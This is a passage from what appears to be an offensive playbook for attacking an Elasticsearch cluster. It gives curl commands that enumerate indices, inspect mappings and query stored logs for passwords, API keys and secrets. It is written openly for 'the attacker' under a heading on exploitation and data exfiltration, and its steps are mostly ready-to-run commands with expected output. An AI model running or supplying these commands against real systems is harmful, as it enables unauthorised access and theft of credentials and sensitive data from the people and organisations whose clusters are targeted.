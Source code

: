 **Step 3: Enumerate Indices**

```bash
curl -XGET 'http://<elasticsearch_ip>:9200/_cat/indices?v' -u 'elastic:<password>'
```

*   **Explanation:** This command lists all indices in the Elasticsearch cluster.
*   **Why:** To identify potentially sensitive indices containing valuable data.
*   **Expected Output:** A table listing the indices, their health, status, and document count.
*   **Contribution:** Provides a list of accessible data stores, allowing the attacker to target specific areas.
*   **Alternative:** `curl -XGET 'http://<elasticsearch_ip>:9200/_aliases?pretty'`

**Step 4: Inspect Index Mappings**

```bash
curl -XGET 'http://<elasticsearch_ip>:9200/<index_name>/_mapping?pretty' -u 'elastic:<password>'
```

*   **Explanation:** This command retrieves the mapping for a specific index (replace `<index_name>` with an actual index name from the previous step).
*   **Why:** To understand the structure of the index and identify fields that might contain sensitive data. The `pretty` option formats the JSON output for readability.
*   **Expected Output:** A JSON document describing the index's fields, data types, and analyzers.
*   **Contribution:** Provides insight into the data stored in the index, helping to prioritize targets.
*   **Alternative:** Use the `kibana` interface (if available and accessible) to browse the mappings.

**Phase 2: Exploitation and Data Exfiltration**

**Step 5: Query for Sensitive Data**

```bash
curl -XGET 'http://<elasticsearch_ip>:9200/<index_name>/_search?pretty' -H 'Content-Type: application/json' -d '{
  "query": {
    "query_string": {
      "query": "password OR api_key OR secret"
    }
  }
}' -u 'elastic:<password>'
```

*   **Explanation:** This command performs a search within the specified index for documents containing keywords associated with sensitive data. The `-H 'Content-Type: application/json'` header is important for sending the query correctly.
*   **Why:** To directly extract credentials, API keys, and other sensitive information.
*   **Expected Output:** JSON documents matching the search criteria, potentially containing sensitive data.
*   **Contribution:** Directly reveals sensitive information stored in the logs.
*   **Alternative:** Construct more sophisticated queries using Elasticsearch's query DSL to target specific fields or data patterns. Example:

```bash
curl -XGET 'http://<elasticsearch_ip>:9200/<index_name>/_search?pretty' -H 'Content-Type: application/json' -d '{
  "query": {
    "match": {
      "log_message": "password"
    }
  }
}' -u 'elastic:<password>'
```
